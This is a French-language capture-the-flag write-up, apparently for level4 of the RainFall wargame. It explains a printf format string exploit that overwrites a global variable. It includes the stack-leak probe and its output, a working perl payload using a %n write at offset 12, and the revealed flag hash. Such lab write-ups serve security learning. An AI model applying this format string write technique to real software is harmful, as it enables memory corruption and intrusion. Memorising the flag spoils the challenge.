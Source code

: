 # level4

On se retrouve avec un pattern similaire au level précédent.

On doit modifier la valeur d'une variable globale `m` situé à l'adresse `0x8049810` pour qu'elle soit égale à `0x1025544`.

On a une taille d'input limité par la fonction `fgets()` et un `printf()` non protégé.

On procède comme précédemment pour obtenir la position écrite par printf (12) :
```bash
AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
AAAA 0xb7ff26b0 0xbffff764 0xb7fd0ff4 (nil) (nil) 0xbffff728 0x804848d 0xbffff520 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025
```

Cette fois ci on doit écrire une valeur beaucoup plus grande que dans le level précédent : 16930116 (0x1025544 en décimal).

On ne pourrait pas écrire autant de caractères avec la méthode de padding précédente, car seul une quantité limité de notre input est prise en compte.

Cependant, en utilisant la même logique d'exploit des valeurs de format de printf on peut arriver à écrire beaucoup plus de caractères que ce qui nous est imposé par notre buffer :
`%100x` va afficher au minimum 100 caractères dont la valeur de l'argument x.

En applicant cette idée on obtient le payload suivant :
```bash
perl -e 'print "\x10\x98\x04\x08"."%16930112x"."%12\$n"' > /tmp/payload
```
Et en lançant l'executable avec ce payload, on arrive à obtenir le flag !
```bash
level4@RainFall:~$ ./level4 < /tmp/payload

< lots of spaces >

        0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
